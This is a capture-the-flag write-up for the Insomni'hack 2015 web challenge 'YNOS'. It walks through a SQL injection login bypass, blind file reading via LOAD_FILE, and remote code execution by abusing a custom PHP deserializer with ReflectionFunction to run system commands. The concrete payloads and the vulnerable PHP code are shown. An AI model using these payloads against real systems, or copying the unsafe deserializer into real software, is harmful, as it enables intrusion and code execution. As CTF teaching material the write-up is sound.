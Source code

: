 # Insomni’hack CTF 2015: YNOS

**Category:** Web
**Points:** 100
**Author:** clZ
**Description:**

> <https://www.youtube.com/watch?v=O2rGTXHvPCQ>
> <a href="http://www.youtube.com/watch?v=O2rGTXHvPCQ"><img src="http://img.youtube.com/vi/O2rGTXHvPCQ/0.jpg" border="3" width="640" height="480"/></a>
>
> So many hacking scenes, so little sk1llz…
>
> Apparently [this website](http://ynos.teaser.insomnihack.ch/) likes these stupid films. Pwn them and get the flag which is in a pretty obvious file in the webroot.

## Write-up

<http://ynos.teaser.insomnihack.ch/> presents a login screen. Some random guesses reveal we can log in using the username `admin` with password `admin`. Now we can browse artists, films, and directors. Clicking any of those links triggers an Ajax request to `/INSO.RPC` with some JSON-formatted data:

```bash
$ curl -H 'Content-Type: application/json' -H 'Accept: */*' -H 'Cache-Control: no-cache' -H 'X-Requested-With: XMLHttpRequest' -H 'Cookie: AWSELB=CFABFDBD1C5BB6C16340B9340EA064028E4DF570D44D64084C319E70EE8D963FBDB0FBB63151BAE16EB9FFA8E0D4123E34E5D7D9AA1E396E163C4F960FFBFF45E6083CB961; session=fe5e3eddfcad1992c22b98cfd8d3e5b3' --data-binary '{"c":{"name":"page"},"a":{"name":"render","params":{"name":"artists"}}}' 'http://ynos.teaser.insomnihack.ch/INSO.RPC'
<fieldset>

<!-- Form Name -->
<legend>Artists</legend>


<ul class="list-group">
  <li class="list-group-item">Jonny Lee Miller</li>
  <li class="list-group-item">Angelina Jolie</li>
  <li class="list-group-item">Jesse Bradford</li>
  <li class="list-group-item">Matthew Lillard</li>
  <li class="list-group-item">Laurence Mason</li>
  <li class="list-group-item">Fisher Stevens</li>
</ul>

</fieldset>
```

### By team "curryboys" - Istvan Chung, Husayn Karimi, William Marshall

This one boils down to a boolean SQL injection attack and a code
execution from a custom PHP deserialization function. I noticed by
using Firebug that the main login screen encodes the username and
password as JSON in a POST request to /INSO.RPC on the server, in the format

```
{"c":{"name":"user"},"a":{"name":"login","params":"username|password"}}
```

Although I didn't know it at the time, it turns out that this is in fact
the serialized format of a `c`lass called `user`, requesting the
`a`ction `login`, a function to be called with the given parameters.
Placing the string `' OR 1=1 --` in for username allowed me to login and
get a session cookie quite easily. However, all this lets us do is make
another call of the form

```
{"c":{"name":"page"},"a":{"name":"render","params":"home"}}
```

(where we can substitute `"artists"`, `"films"`, `"directors"`, or
`"logout"` instead of `"home"`). Unfortunately, none of those pages are
of any use, so I went back to the original SQL injection. The challenge
states that the flag is in an "obvious" file in the webroot, so I
decided that I'd try to find where that was on the server. Since we can
get binary information out of the SQL injection (login failed or
succeeded), we can test for the presence of files using the query

```
LOAD_FILE('/path/to/file') IS NOT NULL
```

I managed to find `/etc/apache2/apache2.conf`, indicating that we were
looking at an Apache 2 server, and through trial and error eventually
found the existence of `/var/www/html/index.php`. Quick testing showed
that `flag.txt`, `flag`, `FLAG`, etc were not present, so I used binary
search to brute-force first the length, and then the contents of
`index.php` and `INSO.RPC` character-by-character, which contain
references to `classes.php` and `functions.php`, which I read out as
well. `functions.php` is reproduced here:

```
<?php

function parseParams($params) {
  if(is_array($params)) {
    return $params;
  }
  else {
    return explode("|",$params);
  }
}

function myDeserialize($object) {
  global $session;
  $class = $object["c"];
  $action = $object["a"];
  $cname = $class["name"];
  $cparams = Array();
  if(isset($class["params"])) {
    $cparams = $class["params"];
  }
  $my_obj = new $cname($cparams);
  $aname = $action["name"];
  $aparams = Array();
  if(isset($action["params"])) {
    $aparams = parseParams($action["params"]);
  }

  call_user_func_array(array($my_obj,$aname),$aparams);

}

?>
```

`myDeserialize` is called by INSO.RPC to handle every incoming request.
It lets us create an instance of any class we desire with any
constructor parameters, and then call any method on that class with any
parameters. We'd like to just call a function like `system`, but
`system` isn't the method of any class. In addition, the classes in
`classes.php` appeared to be useless for locating the flag. However,
the PHP built-in class [`ReflectionFunction`][rf] comes to the rescue, as
its `invoke` method lets us call the function we supply in the
constructor. We can use the serialization vulnerability to make the
call

```
new ReflectionFunction("system").invoke("ls")
```

We serialize this into

```
{"c":{"name":"ReflectionFunction", "params":"system"},
 "a":{"name":"invoke","params":"ls"}}
```

and we get the celebration-inducing output

```
INSO.RPC
___THE_FLAG_IS_IN_HERE___
___THE_FLAG_IS_IN_HERE___.save
artists.php
bootstrap.min.css
bootstrap.min.js
classes.php
directors.php
films.php
functions.php
home.php
index.php
jquery-2.1.1.min.js
login.php
logout.php
preload.php
```

Changing `ls` to `cat ___THE_FLAG_IS_IN_HERE___` gives us our flag:

```
INS{Gotta_L0ve_l33t_serialization_suff!}
```

[rf]: http://php.net/manual/en/class.reflectionfunction.php

## Other write-ups and resources

* none yet

